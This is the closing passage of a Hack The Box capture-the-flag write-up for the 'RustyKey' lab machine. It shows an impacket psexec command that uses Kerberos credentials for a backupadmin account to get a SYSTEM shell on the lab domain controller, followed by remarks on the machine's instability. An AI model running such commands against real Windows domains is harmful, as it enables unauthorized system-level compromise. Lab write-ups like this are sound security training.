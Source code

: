 Nailed the `root.txt` flag.

We can also run [psexec](https://github.com/veso266/impacket/blob/master/examples/psexec.py) and we know that `backupadmin` is member of `administrators` group. <br>
&rarr; We can able to get the shell as `NT AUTHORITY\SYSTEM`.

```bash
└─$ psexec.py -k -no-pass 'RUSTYKEY.HTB/backupadmin@dc.rustykey.htb'      
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[*] Requesting shares on dc.rustykey.htb.....
[*] Found writable share ADMIN$
[*] Uploading file rFPLWAqZ.exe
[*] Opening SVCManager on dc.rustykey.htb.....
[*] Creating service BqCY on dc.rustykey.htb.....
[*] Starting service BqCY.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.17763.7434]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32> whoami
nt authority\system

C:\Windows\system32>
```

This machine is great with some privilege escalation techniques but the things is that sometimes the machine quite buggy so we need to reset the machine and type out command again and again. There is one part when getting the `mm.turner` session, you need to prepare command to run cause it will disconnect really fast and have to redo the command again and have to wait for a while to get the session again :).

*Shout out again to [2ubZ3r0](https://app.hackthebox.com/users/682632) for helping me a lot with this machine.*

![result](/assets/img/rustykey-htb-season8/result.png)